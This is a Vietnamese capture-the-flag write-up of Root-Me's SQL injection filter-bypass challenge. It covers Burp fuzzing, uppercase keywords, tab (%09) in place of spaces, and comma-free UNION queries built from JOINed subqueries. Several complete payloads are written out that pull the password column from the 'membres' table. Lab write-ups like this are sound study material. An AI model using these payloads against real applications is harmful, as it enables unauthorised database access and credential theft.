










# S[QL Injection – Filter bypass](https://www.root-me.org/en/Challenges/Web-Server/SQL-injection-Filter-bypass)

Challenge này có cấu trúc tương tự các bài SQL đã làm, tab Membres có câu query `id=1` và chỉ có ở đây có thể tiêm payload vào. Tuy vậy, đời không như là mơ, ta bị reject:

Mở burpsuite lên và thử fuzz tìm filter của nó thôi!

Với comment của tác giả, ta đã xác định được database gồm 4 cột:

Sau 20 phút ngồi fuzz không thành, thôi thì bỏ vào intruder để brute thử:

Có vẻ là server đã chặn hết các từ khóa luôn. Stuck tiếp 1 tiếng. Thử test lại với uppercase các keyword thì thấy qua được filter:

-   Uppercase các keyword

Đời không như là mơ, đến lúc này, server filter hết các ký tự **“+”**, **“%20”** và **“whitespace”**:

Stackoverflow bảo hãy thử các ký tự **/**/ %00 %09 %0a %0d** để bypass. Thì thấy `%00` bypass được:

Tuy nhiên, tiếp tục fuzz với `%00` thì vẫn không có kết quả gì trả về:

Quay ngược lại thử %09 (vì lúc thử đến `%00` bypass được nên không thử nữa) thì thấy cũng bypass được. Tra trên URL Encoding thì biết đây là ký tự Tab:

Ngồi fuzz và ta đã có payload có thể tiêm:
`1%09UNION%09SELECT%09*%09FROM%09membres%09LIMIT%091%09OFFSET%090`

Ở trên, ta đã biết được 4 cột của database. Giờ thì thử thách tiếp theo là bypass dấu **‘,’**. Tuy nhiên, có vẻ như không có cách nào thay thế được dấu ‘,’ cả.

Sau khi lượn trên các mặt trận, em tìm được cấu trúc query sử dụng cross join để JOIN multi query trong subqueries để có thể truy xuất nhiều cột không cần sử dụng **‘comma’**:
`union select * from ((select 1)A join (select 2)B join (select group_concat(user(),' ',database(),' ',@@datadir))C);`

Thử áp dụng payload trên và các lưu ý từ đầu, ta có payload:
`1 UNION SELECT * FROM (SELECT 123) AS a JOIN (SELECT 456) AS b JOIN (SELECT 123) AS c JOIN (SELECT pass FROM membres LIMIT 1) AS d) LIMIT 1 OFFSET 0`

Payload để tiêm:
`1%09UNION%09SELECT%09*%09FROM%09((SELECT%09123)%09AS%09a%09JOIN%09(SELECT%09456)%09AS%09b%09JOIN%09(SELECT%09123)%09AS%09c%09JOIN%09(SELECT%09pass%09FROM%09membres%09LIMIT%091)%09AS%09d)%09LIMIT%091%09OFFSET%090`

Không hiểu sao nó chỉ trả về giá trị như lúc đầu tiêm. Ngồi stuck một hồi nữa và thử đổi payload thì mới phát hiện ra quên thay đổi OFFSET từ 0 1 vì mình đã query id=1. Thay đổi payload:
`1%09UNION%09SELECT%09*%09FROM%09((SELECT%09123)%09AS%09a%09JOIN%09(SELECT%09456)%09AS%09b%09JOIN%09(SELECT%09123)%09AS%09c%09JOIN%09(SELECT%09pass%09FROM%09membres%09LIMIT%091)%09AS%09d)%09LIMIT%091%09OFFSET%091`

-   Tìm được password: **KLfgy******************sqli**

- Flag: "****************************"
